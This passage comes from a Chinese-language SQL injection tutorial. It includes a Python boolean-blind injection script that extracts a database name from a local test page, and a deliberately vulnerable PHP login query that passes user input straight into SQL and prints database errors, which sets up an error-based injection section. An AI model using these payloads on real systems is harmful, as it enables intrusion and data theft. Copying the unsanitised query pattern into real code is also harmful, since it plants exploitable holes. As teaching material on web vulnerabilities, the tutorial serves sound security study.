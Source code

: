 ```text
import requests

url = 'http://127.0.0.1/boolean.php?id=1'
poc_str = 'abcdefghijklmnopqrstuvwxyz0123456789'
for num in range(1,6):
	for char in poc_str:
		str_check_poc = "' and substr(database(),"+ str(num) +",1)='" + char + "' --+"
		r = requests.get(url + str_check_poc)
		if r.text == 'yes':
			print('[+]数据库库名第'+ str(num) +'个字符为' + char)
			break
```

我们可以看到数据库库名每个字符是什么，拼接到一起即数据库库名为`users` 

![&#x5224;&#x65AD;&#x6570;&#x636E;&#x5E93;&#x540D;&#x79F0;](../../../../.gitbook/assets/tu-pian%20%2811%29.png)

#### 报错注入

如下代码：

```text
<?php
$con=mysqli_connect("localhost","root","root","users");
// 检测连接
if (mysqli_connect_errno())
{
	echo "连接失败: " . mysqli_connect_error();
}

$username = $_GET['username'];

if($result = mysqli_query($con,"select * from user where `USERNAME`='".$username."'")){
	echo "ok";
}else{
	echo mysqli_error($con);
}

?>
```

从代码得知，只要是数据库连接正常，SQL语句正常执行，就会返回`ok` ，否则返回数据库连接错误信息，并显示到页面上，所以我们使用以下过程来模拟攻击者攻击的过程。

1. 添加`'` 观察是否报错。
2. 利用报错`payload` 来模拟攻击者攻击系统

 **Duplicate entry报错：**
